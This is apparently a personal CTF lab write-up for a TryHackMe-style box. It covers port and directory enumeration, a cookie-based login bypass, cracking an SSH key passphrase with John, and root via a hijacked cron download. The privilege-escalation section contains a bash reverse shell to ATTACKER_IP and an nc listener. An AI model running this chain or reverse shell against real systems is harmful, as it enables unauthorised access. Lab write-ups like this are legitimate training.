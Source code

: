 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

It's a [[CTF]] so we catch them all.

# Recon
## Nmap

We can use [[Nmap]] to scan the target :

```
    22/tcp open ssh
    80/tcp open http
```

# Enumeration
## Gobuster

Now we can use [[Gobuster]] to start [[Enumeration]] :

```
    /admin
    /aboutus
```

visiting the /admin directory we find the login page for admins and in the /aboutus we find some names

- Ninja - Lead Developer
- Pars - Shibe Enthusiast and Emotional Support Animal Manager
- Szymex - Head Of Security
- Bee - Chief Drinking Water Coordinator
- MuirlandOracle - Cryptography Consultant

then we can look at the download of the Source code (go), we find another name (Steve) but nothing interesting

about, what is interesting here is the request for the name of the **login Cookie.**

# Exploit

For the [[Exploit]] we have to Bypass login [[Cookies]] and we see in the [[Source Code]] that we need to modify the parameter name=SessionToken to bypass login credentials access, we can do it from our [[Developer tools]] on browser and just set the cookie name to \*\*==SessionToken==\*\* reloading the page we have access and find the **id_rca** of James.

## Ssh2John

we can use [[Ssh2john]] `ssh2john id_rsa > jamhash` and `john jamhash --wordlist=/usr/share/wordlists/rockyou.txt`  and find <span style="color: rgb(45, 194, 107);">james13</span>

## SSH

we need to make the  [[SSH]] key executable :  `chmod 600 id_rsa` than we can `ssh james id_rsa p: james13`  and `cat user.txt`

# Privilege Escalation

For the [[Privilege Escalation]] we  `cat etc/crontab`  and we find **buildscript.sh** [[Bash]] but cant modify it, we’ll need to find a way to put in some custom code to run as root .

we can `cat etc/hosts` and we can edit overpass.thm pointing to our[[IP address]] using [[Nano]] 

## Create the BuildScript  

```
              mkdir -p downloads/src in attacker machine ;
              cd downloads/src ;
              bash -i >& /dev/tcp/(ATTACKER_IP)/8080 0>&1  
              chmod +x buildscript.sh
```

then we create a [[Server]] : `python3 -m http.server 80`  and open listener : `nc -lvpn 8080`

we will wait until it runs our script and then we’ll gain root access where we can find the flag as the root user in the root.txt file.